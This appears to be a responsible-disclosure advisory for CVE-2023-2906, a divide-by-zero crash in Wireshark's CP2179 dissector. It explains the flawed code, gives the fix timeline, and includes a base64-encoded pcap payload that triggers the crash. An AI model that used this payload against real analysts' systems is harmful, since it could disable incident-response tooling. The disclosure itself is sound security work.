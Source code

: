 ```yaml
---
layout: default
title: CVE-2023-2906
categories: nav
showinnav: false
---
```


# CVE-2023-2906: Wireshark CP2179 Parsing Divide By Zero DoS

[AHA!] has discovered a deinal-of-service issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Thursday, August 24, 2023. [CVE-2023-2906] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length provided by an attacker-crafted CP2179 packet, Wireshark versions 2.0.0 through 4.0.7 is susceptible to a divide by zero allowing for a denial of service attack. [CVE-2023-2906] appears to be an instance of [CWE-369]. Note that, according to the [patch notes](https://gitlab.com/wireshark/wireshark/-/issues/19229), this effect can only be achieved when a user triggers the vulnerable code patch with the "Decode As..." functionality of Wireshark (or the `-d` option for tshark), so this vulnerability is unlikely to be triggerable in an automated way.

# Technical Details

As can be seen in the below code from the `dissect_response_frame` function which handles parsing the different types of response frames as part of the SCADA protocol, [PG&E 2179 Protocol](https://library.e.abb.com/public/9cc84999c2239e1fc125795d003d05f8/RER620_PGE2179prot_306957_ENa.pdf).

When parsing a `TIMETAG_INFO_RESPONSE` message, a call is made to the Wireshark function `tvb_get_guint8()` (on line 723) which retrieves an 8 bit value from the pcap file. If a 0 value is provided within the `TIMETAG_INFO_RESPONSE` message for the value, a divide by zero error occurs (on line 724).

The relevant code snippet from `epan/dissectors/packet-cp2179.c` is:
```
 718                 case TIMETAG_INFO_RESPONSE:
 719                 {
 720                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_moredata, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 721                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_numsets, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 722 
 723                     num_records = tvb_get_guint8(tvb, offset) & 0x7F;
 724                     recordsize = (numberofcharacters-1) / num_records;
 725                     num_values = (recordsize-6) / 2;      /* Determine how many 16-bit analog values are present in each event record */
 726 
 727                     offset += 1;
```

<br/>

# Payload

A base64-encoded blob containing the pcap needed to trigger the vulnerability is provided below:

```
1MOyoQIABAAAAAAAAAAAAP9/AAD6AAAAAAAAAAAAAAAMAAAADAAAAAMAAAADAAAAAAAAAAAAAAAA
AAAAFAAAABQAAAABAAAAAQAAAAEAAAD5/wAAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAMA
AAAAAAAAAAAAAAwAAAAMAAAAAwAAAAMAAAAAAAAAAAAAAAAAAAAVAAAAFQAAAAMAAAADAAAAAgAA
APn/BACAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAQAAAA=
```

<br/>

# Attacker Value

By providing this poisoned set of packets, an attacker could crash the application (Wireshark, tshark, or possibly a custom application utilizing libwireshark) preventing further analysis. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. This leads to situations where a specially crafted packet could be used to prevent best incident response practices from taking place.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-23 (Thu): Initial findings presented at AHA! Meeting 0x00c8
* 2023-07-08 (Sat): PoC validated and this disclosure drafted.
* 2023-07-17 (Mon): Disclosed to the vendor via email at security@wireshark.org (per the vendor [website](https://www.wireshark.org/security/)).
* 2023-07-23 (Sun): Vendor acknowledged the vulnerability in [issue 19229](https://gitlab.com/wireshark/wireshark/-/issues/19229).
* 2023-08-23 (Wed): Vendor released fixed version [4.0.8](https://www.wireshark.org/docs/relnotes/wireshark-4.0.8.html).
* 2023-08-24 (Thu): Public disclosure of [CVE-2023-2906].

<br/>

----

[CVE-2023-2906]: https://takeonme.org/cves/CVE-2023-2906.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/
